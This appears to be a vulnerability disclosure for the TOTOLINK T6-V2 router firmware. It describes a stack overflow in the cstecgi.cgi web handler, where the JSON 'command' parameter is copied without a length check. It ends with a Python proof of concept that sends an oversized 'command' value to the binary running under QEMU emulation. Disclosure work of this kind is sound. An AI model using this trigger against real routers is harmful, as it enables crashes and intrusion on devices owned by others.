 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_0041cc88` (at address 0x41cc88) gets the JSON parameter `command`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/image-20220529134521719.png" alt="image-20220529134521719" style="zoom:67%;" />

## PoC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setTracerouteCfg",
    "command": "A"*0x400,
    "num": "0"
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

